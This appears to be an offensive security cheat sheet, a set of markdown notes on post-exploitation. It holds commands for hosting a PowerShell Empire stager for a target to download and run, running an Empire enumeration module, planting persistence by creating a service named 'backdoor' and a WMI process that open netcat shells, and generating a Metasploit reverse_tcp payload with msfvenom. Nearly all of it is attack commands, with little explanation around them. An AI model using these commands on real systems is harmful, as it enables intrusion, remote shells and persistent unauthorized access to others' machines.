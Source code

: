 Host the stager so it can be downloaded by the target. 
```bash
# attacker Terminal 3:
cd empire/client/generated-stagers/
sudo python3 -m http.server 9001
# get the target to download and execute the stager (launcher.bat)
```

Pick and run a PowerShell Empire module. 
```bash
# attacker Terminal 2:
agents
interact WOW12345
usemodule powershell/situational_awareness/host/seatbelt
set Agent WOW12345
set Command -group=user # enum more info about the current user for privesc
execute 
# wait and then review the results printed to the screen
```

## Sliver
```bash
# text goes here
```

# Persistence

## sc
```bash
# target Terminal 1:
sc \\192.168.1.69 create backdoor binpath= "cmd.exe /k c:\malware\nc.exe -dlp 4444 -e cmd.exe"
sc \\192.168.1.69 start backdoor
```

## wmic
```bash
# target Terminal 2:
wmic node:192.168.1.69 process call create "c:\malware\nc.exe -dlp 4444 -e cmd.exe"
```

## MSFVenom, Metasploit, and MSBuild
Identify the correct MSBuild version for the target. 
```bash
# target Terminal 1:
dir /b /s C:\msbuild.exe
```

Create the payload. 
```bash
# attacker Terminal 1:
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.23 LPORT=4444 -f charp -O payload.cs
```
